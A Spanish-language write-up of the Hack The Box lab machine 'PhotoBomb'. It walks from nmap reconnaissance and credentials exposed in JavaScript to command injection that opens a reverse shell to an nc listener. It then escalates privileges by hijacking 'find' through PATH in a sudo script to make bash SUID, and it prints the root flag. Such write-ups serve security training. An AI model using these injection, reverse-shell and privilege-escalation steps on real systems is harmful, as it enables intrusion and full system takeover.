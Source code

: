 ```yaml
---
title: PhotoBomb Writeup
author: miguel3023
date: 2022-11-29
categories: [Writeup, HTB]
tags: [Linux, CTF, Easy]
image:
  path: ../../assets/img/commons/PhotoBomb/PhotoBomb.png
  width: 800
  height: 450 
---
```


## Reconocimiento

Empezamos con un escaneo para detectar los puertos que están abiertos

```
❯ nmap -p- --min-rate 5000 --open -n -v -Pn 10.10.11.182 -oG OpenPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-29 18:11 -05
Initiating SYN Stealth Scan at 18:11
Scanning 10.10.11.182 [65535 ports]
Discovered open port 22/tcp on 10.10.11.182
Discovered open port 80/tcp on 10.10.11.182
Completed SYN Stealth Scan at 18:12, 14.69s elapsed (65535 total ports)
Nmap scan report for 10.10.11.182
Host is up (0.21s latency).
Not shown: 65529 closed tcp ports (reset), 4 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Ahora vemos los servicios y la versión de los mismos en base a los puertos abiertos

```
❯ nmap -sC -sV -p22,80 10.10.11.182 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-29 18:33 -05
Nmap scan report for 10.10.11.182
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Con **whatweb** vemos el software que se está empleando en la página web por el puerto 80

```
❯ whatweb http://10.10.11.182
http://10.10.11.182 [302 Found] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], 
IP[10.10.11.182], RedirectLocation[http://photobomb.htb/], Title[302 Found], nginx[1.18.0]
```

Vemos que nos hace un redirect, por lo tanto, añadimos el dominio al **/etc/hosts**

```
❯ echo "10.10.11.182  photobomb.htb" >> /etc/hosts
```
Volvemos a lanzar el **whatweb** y ya veremos lo que se emplea en la página

```
❯ whatweb http://photobomb.htb
http://photobomb.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.182], Script, 
Title[Photobomb], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```
Si nos vamos a la página, vemos que hay un "click here" que nos redirige a "printer". Pero nos pide credenciales si intentamos ir a esa ruta. Si vemos el código fuente veremos un "photobomb.js" y lo vemos, encontraremos las credenciales.

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;

```

Ahora veremos que podemos descargar imágenes. Veremos cómo se realiza esa solicitud con **BurpSuite**

![Burpsuite]({{ 'assets/img/commons/PhotoBomb/BurpSuite.png' | relative_url }}){: .center-image }
_Petición por Burp_

En la parte de "filetype" podemos inyectar comandos, en este caso usaremos python3

`Nota:` Sé que es python porque si pones "http://photobomb.htb/printer/lll" y analisas el código, se ve un directorio con doble barra baja en la máquina local, eso me da a pensar que es con python.

En [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) hay varias maneras de hacerlo. Antes que nada nos pondremos en escucha con nc por el puerto que le indicamos cuando carguemos el comando

![Burpsuite]({{ 'assets/img/commons/PhotoBomb/Injection.png' | relative_url }}){: .center-image }
_Inyección_

Hay que tener en cuenta que toca urlencodearlo

```
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.38] from (UNKNOWN) [10.10.11.182] 33430
/bin/sh: 0: can't access tty; job control turned off
$ whoami
wizard
$ hostname -I 
10.10.11.182
```
## Privesc

Vemos que tenemos privilegios sudoers para ejecutar un comando y también para cambiar las variables de entorno

```
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 
```

Vemos el script que podemos ejecutar

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
Vemos que al final ejecuta el comando **find**, por lo tanto vamos a crearnos un fichero con ese nombre, para darle permisos SUID a la bash y le damos permiso de ejecución

```
wizard@photobomb:~/photobomb$ echo "chmod u+s /bin/bash" > find
wizard@photobomb:~/photobomb$ chmod +x find
```
Ahora modificamos el path para que nos ejecute primero nuestro fichero y listo, podemos leer la flag de root

```
wizard@photobomb:~/photobomb$ sudo PATH=$PWD:$PATH /opt/cleanup.sh 
wizard@photobomb:~/photobomb$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
wizard@photobomb:~/photobomb$ bash -p 
bash-5.0# cat /root/root.txt 
bc983ca1c7d8dacebc86993f8f786c31
bash-5.0#
```
